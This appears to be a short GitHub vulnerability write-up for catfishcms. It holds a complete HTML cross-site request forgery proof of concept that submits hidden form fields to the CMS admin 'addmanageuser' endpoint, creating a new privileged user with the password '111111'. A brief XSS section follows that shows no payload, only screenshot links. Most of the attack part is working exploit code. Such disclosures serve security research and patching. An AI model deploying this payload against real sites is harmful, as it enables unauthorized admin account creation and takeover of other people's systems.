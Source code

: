 # catfishcms

## CSRF

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.33.62.73:8080/admin/Index/addmanageuser.html" method="POST">
      <input type="hidden" name="yonghuming" value="111111" />
      <input type="hidden" name="pwd" value="111111" />
      <input type="hidden" name="repeat" value="111111" />
      <input type="hidden" name="juese" value="6" />
      <input type="hidden" name="checkCode" value="363651540178244" />
      <input type="hidden" name="verification" value="6c357a42643449c5cb0b82114b4a5898" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
You can see the successful addition of users
![](https://github.com/AvaterXXX/catfish/blob/master/catfishcms/CSRF1.png)

-------------
## XSS
Login the newly generated account，write source code
![](https://github.com/AvaterXXX/catfish/blob/master/catfishcms/1.png)
Successfully click on the page
![](https://github.com/AvaterXXX/catfish/blob/master/catfishcms/2.png)
